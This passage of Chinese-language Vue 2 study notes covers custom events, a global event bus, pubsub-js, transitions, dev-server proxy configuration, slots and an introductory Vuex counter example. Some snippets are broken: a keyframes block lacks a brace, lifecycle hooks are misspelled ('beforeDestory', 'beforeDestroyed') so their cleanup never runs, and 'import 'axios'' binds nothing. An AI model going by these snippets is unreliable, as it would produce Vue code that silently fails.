> emit 中我们还可以添加多个参数，接收的时候可以使用多个对应参数接收，也可以使用扩展运算符 `...params` 接收不确定参数，parms 是一个包含所有未接收参数值的数组

效果如下：


**实现方式2**

通过 ref 来绑定自定义事件，并且这种方式拥有更大的灵活性，可以指定在特定的时候绑定自定义事件，而不是模板一解析就绑定

```js
// App
// template
<School ref="school"></School>
// methods
getSchoolName(sch_name) {
  console.log("App接受到学校姓名为："+sch_name);
},
// 我们在钩子函数 mounted 里面绑定自定义事件 myGetStudentName
mounted() {
  this.$refs.school.$on('myGetStudentName', this.getSchoolName)
}
```

显示效果如下：


:herb:**扩展**

- 如果我们想要设置 ref 绑定的时机可以使用定时器 setTimeOut

- 如果我们想要设置绑定事件的触发次数可以使用如下代码：

  ```js
  this.$refs.school.$once('myGetStudentName', this.getSchoolName)
  ```


## 10.2 解绑自定义事件

1. ##### 解绑单个自定义事件

   ```js
   // 解绑vc身上的自定义事件
   vc.$off('event')
   
   // 解绑vm身上的自定义事件
   vm.$off('event')
   ```

2. 解绑多个自定义事件

   ```js
   // 解绑vc身上的多个自定义事件
   vc.$off(['event1', 'event2', …])
   
   // 解绑vm身上的自定义事件
   vm.$off(['event1', 'event2', …])
   ```

3. 解绑所有的自定义事件

   ```js
   // 解绑vc身上所有自定义事件
   vc.$off()
   
   // 解绑vm身上素有的自定义事件
   vm.$off()
   ```


:sparkles:**补充**

- 当我们使用了 `this.$destory()` 销毁当前组件的实例后，销毁后该组件所有的自定义事件全部都会失效；
- 当我们使用 `this.$destory()` 销毁总组件或 Vue 实例后，销毁后该总组件 或 Vue 实例的所有子组件和自定义事件都会失效


## 10.3 自定义事件的总结

:heavy_exclamation_mark:两个注意点：

1. 通过 `this.$refs.xxx.$on('event', callback)` 绑定自定义事件时，回调函数如果是普通形式，而不是箭头函数形式，this 指向的是 xxx 绑定的组件，所以<font color="red">我们平时使用的使用的时候回调要么配置在 methods 中，要么使用箭头函数，否则会出现 this 的指向问题</font>
2. 组件上一般只能绑定自定义事件，如果想要绑定原生 DOM 事件，例如：click、keyup等等，需要使用 `native` 进行修饰


# 11 全局组件之间的通信

## 11.1 *全局事件总线(GlobalEventBus)

全局事件总线在 Vue 中十分重要，因为利用它我们可以实现**任意组件间的通信**


全局事件总线的主要实现思路如下：

- 配置一个中介`x`，`x` 主要用来完成各种组件之间的通信，同时 `x` 应该具有如下特性：
  1. `x` 对于其他所有组件是可见的
  2. 这个 `x` 能够调用 `$on()、$off()、$emit()` 等方法
- 我们在完成组件之间的通信时，这里拿 A 与 D 组件为例，首先 A 组件会给 `x` 绑定一个事件

  ```js
  // demo
  mounted() {
      this.x.$on('hello', (data) => {
        console.log('我是school组件,接收到了数据: '+ data);
      })
  }
  ```

  D 组件在适当时机（某个事件触发）触发事件

  ```js
  methods:{
      sendStudentName() {
          this.x.$emit('hello', 666)
      }
  }
  ```

我们利用以前讲述的一个关系:

```js
VueComponent.prototype.__proto__ === Vue.prototype
```

将这个<strong style="color:red">中介 `x` 合适的挂载对象交给了 `Vue.prototype`</strong>，但是这只能确保 `x` 是可见的，但是无法确保 `x` 能够调用 `$on()、$off()、$emit()` 等方法，因为只有 vc、vm 身上能有这些方法，普通变量是没有这些方法的，所以<strong style="color:red">我们需要考虑将 vc 或 vm 赋值给 `x`</strong>

```js
const Demo = Vue.extend({})
const d = new Demo()
Vue.prototype.x = d
```

但是这么写显得有点不太美观，新建了一个额外的 vc，更加优雅的写法如下，直接将 vm 绑定给 `Vue.prototype.$bus`（**"bus" 在英语中有 "总线" 的意思，所以后面这个 `x` 我们都称呼为 `bus`，同时添加 `$` 是为了迎合 Vue 的设计，代表 "全局" 之意**）

```js
new Vue({
  render: h => h(App),
  // breforeCreate 函数是在Vue已经初始化，但是数据代理还没开始的时候进行绑定
  beforeCreate() {
    Vue.prototype.$bus = this;	// 安装全局事件总线
  }
}).$mount('#app')
```

- 在 `beforeCreate` 的时候绑定是考虑到：<strong style="color:red">此时 `bus` 还未绑定任何事件，所有的方法、数据代理都还没开始</strong>

但是现在仍然还有一点不够完善的地方，就是如果我们没创建一个 vc 或者 vm，都要给其绑定一个事件，那么此时 `bus` 身上的绑定的事件就会非常多，并且若是 vc 或 vm 在销毁后也不去销毁其绑定在 `bus` 的事件，`bus` 就会存在非常多 "累赘"，所以我们还需要在 vc 或 vm 销毁之前销毁绑定的 `bus` 事件

```js
mounted() {
    this.x.$on('hello', (data) => {
      console.log('我是school组件,接收到了数据: '+ data);
    })
},
beforeDestory() {
  this.$bus.$off('hello');
}
```

:spiral_notepad:**总结**

1. 全局事件总线是<strong style="color:red">一种组件间通信的方式，适用于任意组件间通信</strong>

2. 安装全局事件总线：

   ```js
   new Vue({
   	…
   	beforeCreate() {
   		Vue.prototype.$bus = this	// 安装全局事件总线
   	},
   	…
   })
   ```

3. 使用事件总线：

   1. 接受数据：A 组件想接受数据，则在 A 组件中给 `$bus` 绑定自定义事件，事件的回调留在 A 组件自身

      ```js
      methods() {
      	demo(data) {
      		…
      	}
      }
      …
      mounted() {
      	this.$bus.$on('xxx', this.demo)
      }
      ```

   2. 提供数据：`this.$bus.$emit('xxx', data)`

4. 最好在 `beforeDestory` 钩子中，用 `$off` 去解绑当前组件所用到的事件


## 11.2 消息订阅与发布

我们前面使用**总局事件总线**实现了所有的组件之间的通信，现在介绍另外一种技术，就是**消息订阅与发布**，具体流程如下：

1. 订阅消息：消息名
2. 发布消息：消息内容

 要使用消息的订阅与发布，我们就需要用到 pubsub-js 这个库

> "pub" 即为 "publish" 的缩写，"sub" 即为 "subscribe" 的缩写

**安装命令：**

```bash
npm i pubsub-js
```

**使用步骤：**

1. **引入 pubsub 库**

   ```js
   import pubsub from 'pubsub-js'
   ```

2. **接受数据**：A 组件想要接受数据，则在 A 组件中订阅消息，订阅的回调留在 A 组件自身

   ```js
   // 写法1
   mounted() {
       this.pub_id = pubsub.subscribe('hello', (msgName,data) => {
         console.log('有人发布了hello消息，hello消息的回调数据为：' + data);
         // 注意：pubsub是外部引入的库，这里必须得用箭头函数，否则里面的 this 指向的将不是 vc 
    // subscible 里面的回调函数里面有两个参数，第一个参数代表订阅消息名称，第二个参数代表发布消息时传递过来的数据
   })
       
   // 写法2
   methods() {
       demo(msgName, data) {
           …
       }
   }
   …
   mounted() {
       this.pid = pubsub.subscribe('xxx', this.demo)
       // 使用 this.pid 打个标记，让外部可见，然后会在适当时机取消订阅，订阅的消息一旦抵达，那么调回vc自带的方法demo
   }
   ```

3. 提供数据：`pubsub.publish('xxx',data)`

4. 最好在 `beforeDestroy` 钩子中，用 `pubsub.unsubscribe(pid)`取消订阅


# 12 vue 特效

## 12.1 `$nextTick`

对于一个代码块中的语句，Vue 每次都是等待里面所有的语句的执行完毕之后再去重新解析模板，但是有时候我们想要的效果是：<font color="red">代码块中前面一条语句执行完毕之后立即重新解析模板，后面的语句就会根据前面解析好的模板执行特定的动作，这个过程是连续的</font>

这时候我们就可以利用 nextTick 来完成这一需求，语法如下：

```js
this.$nextTick(callback)
```

- 作用：<font color="red">在下一次 DOM 更新结束后执行其指定的回调</font>
- 适用时机：当改变数据后，要基于更新后的新DOM进行某些操作时，要在 nextTick 所指定的回调函数中执行


## 12.2 动画效果

### 12.2.1 keyframes 实现

 Vue 中动画效果需要借助 `transition` 标签，该标签不会形成 HTML 结构，搭配 `.v-enter-active` 和 `.v-leave-active` 可以实现元素进场和出场时的动画效果

```vue
<template>
<div>
    <button @click="isShow = !isShow">显示和隐藏</button>
    <transition>
        <h1 v-show="isShow">你好啊！</h1>
    </transition>
  
</div>
</template>

<script>
export default {
    name:'Test',
    data() {
        return {
            isShow: true,
        }
    }
}
</script>

<style scoped>
    h1 {
        background: orange;
    }
    .v-enter-active {
        animation: slide 1s;
    }
    .v-leave-active {
        animation: slide 1s reverse;
    }
    @keyframes slide {
        from {
            transform:translateX(-100%); 
        to {
            transform:translateX(0%);
        }
    }
</style>
```

显示效果如下：


:herb:**扩展**

1. 我们在还可以给 `transition` 添加 `name` 属性，指定动画的名称，此时进场动画和出场动画的类名就需要修改成 `.name-enter-active` 和 `.name-leave-active`
2. 如果想要初始化的时候就有动画效果，可以使用给 `transition` 添加 `appear` 属性（或者添加 `:appear=true`）

```vue
<template>
<div>
    <button @click="isShow = !isShow">显示和隐藏</button>
    <transition name="change" appear>
        <h1 v-show="isShow">你好啊！</h1>
    </transition>
  
</div>
</template>

<script>
export default {
    name:'Test',
    data() {
        return {
            isShow: true,
        }
    }
}
</script>

<style scoped>
    h1 {
        background: orange;
    }
    .change-enter-active {
        animation: slide 1s;
    }
    .change-leave-active {
        animation: slide 1s reverse;
    }
    @keyframes slide {
        from {
            transform:translateX(-100%);
        }
        to {
            transform:translateX(0%);
        }
    }
</style>
```


### 12.2.2 transition 实现

我们前面讲过，在 Vue 中，如果我们是通过 keyframes 来实现动画效果的，此时，我们只需要设置 `.v-enter-active` 和 `.v-leave-active` 即可；

我们也可以通过 transition 来实现动画效果，对于入场，我们设置的节点有以下 3 个：

1. `.v-enter`：进场的起点
2. `.v-enter-active`：进场特效激活全过程
3. `.v-enter-to`：进场的终点

对于出场，我们设置的节点有如下 3 个：

1. `.v-leave`：出场的起点
2. `.v-leave-active`：出场特效激活全过程
3. `.v-leave-to`：出场的终点

示例：

```vue
<template>
<div>
    <button @click="isShow = !isShow">显示和隐藏</button>
    <transition appear>
        <h1 v-show="isShow">你好啊！</h1>
    </transition>
  
</div>
</template>

<script>
export default {
    name:'Test',
    data() {
        return {
            isShow: true,
        }
    }
}
</script>

<style scoped>
    h1 {
        background: orange;
        /* transition: all 1s; */
    }
    /* 进入的起点 */
    .v-enter {
        transform: translateX(-100%);
    }
    /* 进入的终点 */
    .v-enter-to {
        transform: translateX(0);
    }
    /* 离开的起点 */
    .v-leave {
        transform: translateX(0);
    }
    /* 离开的终点 */
    .v-leave-to {
        transform: translateX(-100%);
    }
    /* 当然，这里的部分样式是可以合并的 */
    .v-enter-active, .v-leave-active {
        transition: all 1s;
    }
</style>
```


### 12.2.3 多个元素过渡

<strong style="color:red">我们前面讲到的 transition 只能给一个元素添加动画，如果想要给多个元素添加动画，那么我们就需要使用到 transition-group，并且需要给每个元素添加唯一的 key 值</strong>

我们首先验证一下，如果我们给多个元素添加动画，那么在 Vue 中报错如下：


如果我们不添加 key 值，那么报错如下：


所以正确写法如下：

```js
<transition-group appear>
    <h1 v-show="!isShow" key="1">世界杯</h1>
    <h1 v-show="isShow" key="2">奥运会</h1>
</transition-group>
```


### 12.2.4 集成第三方动画

之前，我们都是自己写动画效果，其实我们也可以引入别人已经封装好的动画，我们进入到 [npm 官网](https://www.npmjs.com/)搜索 animate.css，进入到它的主页：


我们查看到它所有的动画效果：


**使用步骤**

1. 安装 animate.css 库

   ```bash
   npm install animate.css --save
   ```

2. 引入该库

   ```js
   import 'animate.css'
   ```

3. 添加 class 到元素节点中

   ```html
   <h1 class="animate__animated animate__bounce">An animated element</h1>
   ```

4. 添加 `enter-active-class` 和 `leave-active-class` 样式到元素节点中，属性值从刚才的侧边栏中选择

**示例**

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示和隐藏</button>
    <transition-group
      appear
      name="animate__animated animate__bounce"
      enter-active-class="animate__swing"
      leave-active-class="animate__zoomOutUp"
    >
      <h1
        v-show="!isShow"
        key="1"
      >世界杯</h1>
      <h1
        v-show="isShow"
        key="2"
      >奥运会</h1>
    </transition-group>
  </div>
</template>

<script>
import "animate.css";
export default {
  name: "Test03",
  data() {
    return {
      isShow: true,
    };
  },
};
</script>

<style scoped>
h1 {
  background: orange;
}
</style>
```

显示效果如下：


# 13 Vue 进阶

## 13.1 配置代理

### 13.1.1 方式1

我们前端所使用的发送和接收请求的技术：

1. xhr：俗称"小黄人"，全称是 "XMLHttpRequest"
2. jQuery：通过 `$get` 和 `$post` 来进行发送请求
3. Axios：基于 promise 的网络请求库（推荐）
4. fetch：下一代的 Ajax 技术，采用 Promise 方式处理数据

我们首先来使用 axios 来测试一下发起请求：

1. 首先，我们需要打开一个服务器（文件在压缩包 test_proxy_server 中）：

   ```bash
   node server1.js
   ```

2. 之后在 Vue 中安装好 axios 库

   ```bash
   npm i axios
   ```

3. 引入 axios 库

   ```js
   import 'axios'
   ```

4. 编写获取请求的代码

   ```js
   getStudents() {
     axios.get('http://localhost:5000/students').then( reponse => {
       console.log('请求成功', reponse.data)
     },
     error => {
       console.log('请求失败', error.message)
     })
   }
   ```

触发 get 请求后发送，报错如下：


很明显，出现了经典的跨越问题，即我们违背了 "同源" 原则，也就是以下三个需要保持一致：

1. 协议名
2. 主机名
3. 端口号

为了解决跨越问题，我们可以考虑如下解决方法：

- cors：在后端配置好即可

- jsonp：比较局限，需要前后端共同对接，并且只能处理 get 请求

- **配置代理服务器**

  

配置一个代理服务器的方法有如下两种：

1. nginx
2. vue-cli

我们在这里以 vue-cli 为例进行配置代理服务器

首先，我们要到 vue cli 的[官网](https://cli.vuejs.org/zh/config/)上去查看相关的服务器配置信息


在 Vue.config.js 文件中添加如下配置信息：

```js
devServer: {
    proxy: 'http://localhost:5000'	
    // 该端口号与请求服务器的端口号一致
    // 注意：不是本地主机的端口号 8080，这里应该是 5000
}
```

配置完成之后，我们再来配置请求（注意：此时是向代理服务器发送请求，因此端口号得改成 8080）

```js
getStudents() {
  axios.get('http://localhost:8080/students').then( reponse => {
    console.log('请求成功', reponse.data)
  },
  error => {
    console.log('请求失败', error.message)
  })
}
```

最终显示效果如下：


:warning:**注意**

该种配置代理的方式存在以下两个问题：

1. 当请求的文件在代理服务器中存在时（或者请求的文件与服务器中的请求文件同名），那么代理服务器就会直接返回代理服务器中的文件（具体表现在 Vue中 public 文件夹下的文件），而不会去请求所请求服务器上的该同名文件，**无法灵活控制"走不走"代理**
2. **只能配置一个代理服务器，不能配置多个**

其工作方式为：<font color="red">若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器（优先匹配前端资源）</font>


### 13.1.2 方式2

第二种利用 vue cli 配置代理服务器的方式如下：

```js
module.exports = {
  devServer: {
    proxy: {
      '/api': {
        target: '<url>',
        ws: true,
        changeOrigin: true
      },
      '/foo': {
        target: '<other_url>'
      }
    }
  }
}
```

这种方式能控制我们"**走不走代理**"以及**配置多个代理服务器**

**示例**

```js
devServer: {
  proxy: {
    // 设置api为前缀，表示只有以api为前缀的路由才进行配置代理服务器
    '/api': {
      target: 'http://localhost:5000',	// 代理路由的基础路径
      pathRewrite:{'^/api':''}, // 这一步至关重要，将以api为前缀的请求路径的api置为空
      ws: true, // 用于支持wesocket,为默认值，可不加
      changeOrigin:true, // 用于控制请求头中的host值，添加之后，代理服务器对请求服务器响应的host为请求服务器的端口号，否则为代理服务器的端口号，默认值，可不加
    },
    /*'/demo1':{
       配置基本同上
    }*/
  }
}
```

请求部分代码我们改成为如下：

```js
getStudents() {
  axios.get("http://localhost:8080/api/students").then(
    (reponse) => {
      console.log("请求成功", reponse.data);
    },
    (error) => {
      console.log("请求失败", error.message);
    }
  );
},
```

**说明**

1. 优点：可以配置多个代理，且可以灵活地控制请求时否走代理
2. 缺点：配置略繁琐，<strong style="color:red">请求资源时必须添加前缀</strong>


## 13.2 github 用户搜索案例

我们首先得布置好静态页面，将静态页面组件化，这里由于用到了 bootstrap 库，所以我们将其放入到 public 文件夹下的 css 文件夹中，之后在 index.html 中使用 link 进行引入：

```html
<link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
```

:thinking:**这里为什么我们不将 bootstrap.css 文件放入 src 文件夹下的 assets 文件夹下，然后在 App.vue 中使用 import 引入呢？**

原因：通过 `import` 方式引入样式表，Vue 脚手架会做一个非常严格的检查，即只要样式表中引入了不存在或无法找到的文件，那么 Vue 脚手架就会报错，而 Bootstrap.css 文件恰好就有字体文件无法正常加载出来，如下图：


所以，<font color="red">第三方样式我们不应该使用 import 导入方式，取而代之的应该是使用 link 标签引入</font>


**List 组件**

```vue
<template>
  <div class="row">
    <!-- 展示用户列表 -->
    <div
      v-show="info.users.length"
      class="card"
      v-for="p in info.users"
      :key="p.login"
    >
      <!-- 一个网站不存在两个同名的用户 -->
      <a
        :href="p.html_url"
        target="_blank"
      >
        
      </a>
      <p class="card-text">{{p.login}}</p>
    </div>
    <!-- 展示欢迎词 -->
    <h1 v-show="info.isFirst">欢迎使用</h1>
    <!-- 展示加载中 -->
    <h1 v-show="info.isLoading">加载中.......</h1>
    <!-- 展示错误信息 -->
    <h1 v-show="info.errMsg">{{info.errMsg}}</h1>
  </div>
</template>

<script>
export default {
  name: "List",
  data() {
    return {
      info: {
        isFirst: true,	// 是否展示欢迎语
        isLoading: false,	// 是否显示正在加载中
        errMsg: "",	// 错误信息
        users: [],	// 用户列表
      },
    };
  },
  mounted() {
    this.$bus.$on("getUsers", (dataObj) => {
      console.log("我是 List 组件，接受到数据:", dataObj);
      this.info = {...this.info, ...dataObj}
        // 使用扩展运算法来达到设置默认值的效果，当 dataObj 与 this.info 有同名的变量就会进行覆盖
    });
  },
  beforeDestroyed() {
    this.$bus.$off('getUsers');
  },
};
</script>

<style scoped>
.card {
  float: left;
  width: 33.333%;
  padding: 0.75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: 0.75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```

**Search 组件**

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input
        type="text"
        placeholder="enter the name you search"
        v-model="keyWord"
      />&nbsp;
      <button @click="searchUsers">Search</button>
    </div>
  </section>
</template>

<script>
import axios from 'axios'
export default {
  name:'Search',
  data() {
    return {
      keyWord:'',
    }
  },
  methods: {
    searchUsers() {
      this.$bus.$emit('getUsers', {isFirst:false, isLoading:true, users:[], errMsg:''});
      axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
        response => {
          console.log('请求成功', response.data.items);
          this.$bus.$emit('getUsers', {isLoading:false, users:response.data.items, errMsg:''});
        },
        error => {
          console.log('请求失败', error.message);
          this.$bus.$emit('getUsers', {isLoading:false, users:[], errMsg:'search failed'});
        }
      )
    }
  },
};
</script>

<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}
</style>
```

显示效果如下：


## 13.3 vue-resource

vue-resource 是 Vue.js 中的一款插件，<font color="red">它可以通过 XMLHttpResquest 或 JSONP 发起请求并处理响应</font>

**使用步骤**

1. 安装 vue-resource

   ```bash
   npm install vue-resource
   ```

2. 引入插件

   ```js
   import vueResource from 'vue-resource'
   ```

3. 使用插件

   ```js
   Vue.use(vueResource)
   ```

当我们使用完这个插件之后，我们会发现所有的组件的 `_watcher` 都会增加一个 `$http` 的对象：


该对象的作用类似于 axios（基本用法相同），所以我们在使用的时候可以直接将原来 axios 请求的 "axios" 替换为 `this.$http` 效果相同，例如前面的 github 搜索的案例，替换的代码如下：

```js
this.$http.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
  response => {
    console.log('请求成功', response.data.items);
    this.$bus.$emit('getUsers', {isLoading:false, users:response.data.items, errMsg:''});
  },
  error => {
    console.log('请求失败', error.message);
    this.$bus.$emit('getUsers', {isLoading:false, users:[], errMsg:'search failed'});
  }
)
```

但是相较起来，vue-resource 现在的维护已经不再那么频繁，并且相较起来，axios 性能更加优秀，所以我们现阶段都是使用 axios


## 13.4 插槽

插槽的作用：<font color="red">在子组件的某个位置插入父组件自定义的html结构和data数据</font>

插槽分为三种:

1.  默认插槽
2. 具名插槽
3. 作用域插槽

### 13.4.1 默认插槽

我们之前都是用自闭合标签来插入子组件，其实我们也可以使用双标签来插入组件

在双标签中，我们将<u>自定义的 HTML 标签或者data 数据放入双标签中，然后跑到子组件中，使用 **`slot`** 标签来指定插槽位置</u>，表示将双标签的内容插入到那里

**父组件**

```html
<Category title="美食" :itemList="foods">
  
</Category>
```

**子组件**

```html
<slot>我是一个插槽，当使用者没有传入具体结构或者数据时，我这个内容将会显示出来，否则不显示</slot>
```


### 13.4.2 具名插槽

具名插槽简单来将就是<font color="red">具有名字的插槽，用于子组件具有多个插槽的情况</font>，Vue 可以根据名字来识别对应的插槽，我们可以联想默认暴露和分别暴露

**父组件**

```html
<Category title="美食" :itemList="foods">
  <p slot="first">我要放置到插槽1中</p>
  <p slot="second">我要放置到插槽2中</p>
</Category>
```

**子组件**

```html
<slot name="first">我是插槽1，当使用者没有传入具体结构或者数据时，我这个内容将会显示出来，否则不显示</slot>
<slot name="second">我是插槽2，当使用者没有传入具体结构或者数据时，我这个内容将会显示出来，否则不显示</slot>
```

其实，如果我们如果想要插入多个元素节点，那么完全可以将其放入一个 `div` 标签中，然后给该 `div` 标签添加 `slot` 即可一次同时添加多个元素节点，但是如果不想要生成的多余的 div 结构，我们可以用 `template` 标签代替，此时的 `slot` 可以写成 `v-slot:slotName`

**父组件**

```html
<template v-slot:multi>
  <p slot="first">我要放置到插槽1中</p>
  <p slot="second">我要放置到插槽2中</p>
</template>
```

> 由于父组件外面也有一个 template，我们需要用缩进来进行区分

**子组件**

```html
<slot name="multi">我是插槽1，当使用者没有传入具体结构或者数据时，我这个内容将会显示出来，否则不显示</slot>
```


### 13.4.3 作用域插槽

<font color="red">当数据在组件的自身，但是根据数据生成的结构需要由组件的使用者来决定，此时我们就可以用到作用域插槽</font>

示例：

现在我在 Category 组件中有数据如下：

```js
foods: ["火锅", "烧烤", "小龙虾", "牛排"],
games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
films: ["《教父》", "《拆弹专家》", "《你好，李焕英》", "《尚硅谷》"],
```

并且在 template 结构中添加一个插槽：

```html
<slot :foods="foods" :games="games"></slot>
```

回到 App 组件中加入子组件结构：

```html
<Category>
  <template slot-scope="dataObj"> 
    <ul>
      <li
        v-for="(f, index) in dataObj.foods"
        :key="index"
      >{{f}}</li>
    </ul>
  </template>
</Category>
<Category>
  <template slot-scope="dataObj"> 
    <ol>
      <li
        v-for="(g, index) in dataObj.games"
        :key="index"
      >{{g}}</li>
    </ol>
  </template>
</Category>
```

> - Vue 2.5 之后将原来的接收 dataObj 的属性名由原来的 `scope` 改成为 `slot-scope`，因此这两种方法现阶段都可以使用
>
> - 同时为了书写方便，我们可以借助解构赋值去除掉前缀 `dataObj`（该 `dataObj` 为自己定义），如下：
>
>   ```html
>   <Category>
>     <template slot-scope="{foods}"> 
>       <ul>
>         <li
>           v-for="(f, index) in foods"
>           :key="index"
>         >{{f}}</li>
>       </ul>
>     </template>
>   </Category>
>   ```

最终显示效果如下：


用的数据都是子组件中的 data，但是所使用的结构是父组件自定义的


# 14 Vuex

## 14.1 Vuex 介绍

概念：<font color="red">Vuex 是专门在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对应 Vue 应用中的多个组件的共享状态的进行集中式的管理（读 / 写）</font>，也是一种组件间通信的方式，且适于任意组件间通信。

现在我们来引入一个背景，说明为什么要引入 Vuex。

我们为了实现多组件之间数据的共享（包括读数据与写数据），如果我们**使用全局事件总线来完成**，那么关系图如下：


我们会发现，它们之间的关系错综复杂，不利用与维护与管理，而且一旦需要通信的组件变多，这些关系线就会更加乱，而如果我们**通过 Vuex 来实现**，那么关系图如下：


Vuex 的 Github 地址：[传送门](https://github.com/vuejs/vuex)

**使用 Vuex 的时机**

1. 多组件依赖于同一状态
2. 来自不同组件的行为需要变更为同一状态


## 14.2 求和案例

使用纯 Vue 编写的核心代码如下：

```vue
<template>
  <div>
    <h1>当前求和为：{{current}}</h1>
    <select v-model.number="base">
        <option value="1">1</option>
        <option value="2">2</option>
        <option value="3">3</option>
        <!-- 这里可以在 value 前面添加":"",或者在 v-model 后面添加修饰符number，强制转化为数字，否则 1、2、3 将会被当做字符串看待 -->
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name:"Count",
  data() {
    return {
      base: 1,  // 用户选择的增加和删除的基数
      current:0,    // 当前的数字
    }
  },
  methods: {
    increment() {
      this.current += this.base;
    },
    decrement() {
      this.current -= this.base;
    },
    incrementOdd() {
      if (this.current % 2 != 0) {
        this.current += this.base;
      }
    },
    incrementWait() {
      setTimeout(() => {
        this.current += this.base;
      }, 500)
    }
  }
}
</script>

<style>

</style>
```

显示效果如下：


## 14.3 Vuex 的工作原理

首先我们来分析 Vuex 的工作原理图：


- 首先，每一个 Vuex 应用的核心就是 `store`，它负责管理统一的状态和数据
- `state`（数据）
  - Vuex 管理的**状态对象**，它是唯一的
- `actions`（事件）
  1. 值为一个**对象，包含多个响应用户动作的回调函数**；
  2. 通过 `commit()` 来触发 `mutation` 中的函数的调用，间接更新 `state`
  3. 触发 axios 中的回调：`$store.dispatch('对应的 action 回调名')` 来触发
  4. 可以包含异步代码（定时器、Ajax 等）
- `mutations`（执行）
  1. 值为一个**对象，包含多个直接更新 state 的方法**
  2. 调用 `mutations` 中方法：在 `action` 中使用 `commit('对应的 mutations 方法名')` 来触发
  3. 特点：<u>不能写异步代码、只能单纯地操作 state</u>


## 14.4 搭建 Vuex 的开发环境

首先，在搭建 Vuex 的开发环境之前，我们需要了解一件事，就是：

- `Vue 2` 中，要用 `Vuex 3` 的版本
- `Vue 3` 中，要用 `Vuex 4` 的版本

1.由于我们当前是使用 `Vue 2` 的版本进行开发学习的，所以现在要安装 `Vuex 3` 的版本

```bash
npm i vuex@3
```

2.创建 `src/store/index.js`，该文件用于创建 `Vuex` 中最为核心的 `store`

```js
import Vue from 'vue'
import Vuex from 'vuex' // 引入 vuex

Vue.use(Vuex)   // 使用 vuex 插件

const actions = {}      // 准备 actions —— 用于响应组件中动作
const mutations = {}    // 准备 mutations —— 用于操作数据（state）
const state = {}        // 准备 state —— 用于存储数据

// 创建并暴露 store
export default new Vuex.Store({
    actions,
    mutations,
    state,
})
```

3.在 `src/main.js`中创建 `vm` 时传入 `store` 配置项

```js
import Vue from 'vue'
import App from './App.vue'

Vue.config.productionTip = false
// 引入 store 
import store from './store'
new Vue({
  render: h => h(App),
  store,    // 配置项添加 store
}).$mount('#app')
```

首先我们需要了解到 vuex 最为核心的 store 是需要我们自己配置的，即使我们已经安装好了 vuex，之后来解释以下几个问题：

1. 我们为什么需要在创建的  store 文件夹下的 index.js 下中使用引入和使用 vuex，而不是在 main.js 中引入并使用

   这是由于我们在创建 store 实例之前必须要先调用 `Vue.use(vuex)`，如果我们在 main.js 中使用`import Vuex from 'vuex'` 来引入 vuex ，之后`Vue.use(Vuex)` 来使用 vuex，那么 JS 会先执行 import ，也就是会先创建 store 实例，之后才会执行 `Vue.use(Vuex)`，就会出现先后顺序上的错误

   

2. 为什么我们引入 `src/store/index.js` 不需要使用 `import store from './store/index.js'`，可以直接使用 `import store from './store'`

   这主要是文件名命名为 index.js，默认情况下 ，当我们直接导入一个文件夹时，vue 默认引入 index 命名的文件，如果我们改成其他名称，那么则会失效


当我们配置完 vuex 的环境之后，就会发现所有的组件就都会带上 `$store` 这个方法对象


## 14.5 求和案例的 vuex 版本

**Count 组件**

```js
<template>
  <div>
    <h1>当前求和为：{{$store.state.current}}</h1>
    <select v-model.number="base">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
      <!-- 这里可以在 value 前面添加":"",或者在 v-model 后面添加修饰符number，强制转化为数字，否则 1、2、3 将会被当做字符串看待 -->
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "Count",
  data() {
    return {
      base: 1, // 用户选择的增加和删除的基数
    };
  },
  methods: {
    increment() {
      this.$store.commit("INCREMENT", this.base);
    },
    decrement() {
      this.$store.commit("DECREMENT", this.base);
    },
    incrementOdd() {
      this.$store.dispatch("incrementOdd", this.base);
    },
    incrementWait() {
      this.$store.dispatch("incrementWait", this.base);
    }
  },
};
</script>

<style>
</style>
```

**index.js** 

```js
import Vue from 'vue'
import Vuex, { createLogger } from 'vuex' // 引入 vuex

Vue.use(Vuex)   // 使用 vuex 插件

const actions = {
    // increment:function() {

    // }
    // increment(context, value) {
    //    context.commit('INCREMENT', value);
    // },
    // decrement(context, value) {
    //     context.commit('DECREMENT', value);
    // },
    incrementOdd(context, value) {
        if(context.state.current % 2) {
            context.commit('INCREMENT', value);
        }
    },
    incrementWait(context, value) {
        setTimeout(() => {
            context.commit('INCREMENT', value);
        }, 500)
    }
    
}      // 准备 actions —— 用于响应组件中动作
const mutations = {
    INCREMENT(state, value) {
        state.current += value;
    },
    DECREMENT(state, value) {
        state.current -= value;
    },
    
}    // 准备 mutations —— 用于操作数据（state）
const state = {
    current:0,
}        // 准备 state —— 用于存储数据

// 创建并暴露 store
export default new Vuex.Store({
    actions,
    mutations,
    state,
})
```

:spiral_notepad:**总结**

1. 在组件中可以用过 `$store.dispatch` 来调遣 `actions` 中的回调函数，里面有两个参数，一个是调遣的函数名，第二个是要传递的参数

2. 在 `Vuex` 中的 `actions` 中的回调函数也有两个接受的参数，第一个为 `context`，是一个小型的 `$store`，里面包含 `state`、`commit` 等重要的方法对象，第二个参数为从组件中接收过来的参数

   

3. 在 `mutations` 中每个函数都应该使用大写来与 `actions` 中的函数区分，除此之外，特别注意，如果组件中要完成的事件存在业务逻辑（一些异步操作，例如定时器和逻辑判断等），那么必须先通过 `dispatch` 调遣，之后再通过 `commit` 提交到 `mutation` 中；如果组件中要完成的事件没有业务逻辑，那么可以直接在组件中使用 `commit` 进行提交

